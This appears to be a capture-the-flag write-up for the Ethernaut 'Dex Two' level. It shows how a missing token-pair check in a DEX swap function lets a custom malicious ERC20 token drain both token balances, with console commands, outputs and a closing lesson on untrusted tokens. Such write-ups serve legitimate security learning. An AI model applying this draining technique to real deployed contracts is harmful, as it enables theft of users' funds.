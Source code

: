 # Dex Two

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

## Things that might help:

- How has the swap method been modified?
=> No require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
> It means we can pair any tokens,not need to be token1/token2
- Could you use a custom token contract in your attack?
=> See [malToken.sol](https://github.com/Thanasornsawan/ethernaut-writeup/blob/main/Dex2/malToken.sol)

```javascript
token1 = await contract.token1()
> '0xab26e4E7Ec92d25a85487dB5c39d96195f1af718'
token2 = await contract.token2()
> '0x47D53D75825b8Cfa96fF947e5F567A7fFb22F300'
contract.address
> '0xd922a8B3FFCf9166cFdED9469d958218f7E34454'
```
Deploy MaliciousToken contract and approve Dex contract as spender in Remix
MaliciousToken.approve('0xd922a8B3FFCf9166cFdED9469d958218f7E34454',10000000)

Transfer 100 to DEX Two to create liquidity and conduct the same swap to withdraw the remaining tokens of DEX Two to be successful.But in this example, we transfer 200 MAL to test.

Drain all token1 from contract (we need swap amount return 100 because has 100 token1 in contract)
```javascript
let MAL = '0x51789c75256E68b5A80233c9Fc4477649990960C'
await contract.add_liquidity(MAL,200)
await contract.get_swap_amount(MAL,token1, 200).then(x=>x.toNumber())
> 100
await contract.swap(MAL, token1, 200);
await contract.balanceOf(token1, contract.address).then(x=>x.toNumber())
> 0
```
Drain all token2 from contract (we need swap amount return 100 because has 100 token2 in contract)
```javascript
await contract.balanceOf(MAL, contract.address).then(x=>x.toNumber())
> 400
await contract.get_swap_amount(MAL,token2, 400).then(x=>x.toNumber())
> 100
await contract.swap(MAL, token2, 400);
await contract.balanceOf(token2, contract.address).then(x=>x.toNumber())
> 0
```

Level completed!
Difficulty 4/10

As we've repeatedly seen, interaction between contracts can be a source of unexpected behavior.

Just because a contract claims to implement the [ERC20 spec](https://eips.ethereum.org/EIPS/eip-20) does not mean it's trust worthy.

Some tokens deviate from the ERC20 spec by not returning a boolean value from their `transfer` methods. See [Missing return value bug - At least 130 tokens affected](https://medium.com/coinmonks/missing-return-value-bug-at-least-130-tokens-affected-d67bf08521ca).

Other ERC20 tokens, especially those designed by adversaries could behave more maliciously.

If you design a DEX where anyone could list their own tokens without the permission of a central authority, then the correctness of the DEX could depend on the interaction of the DEX contract and the token contracts being traded.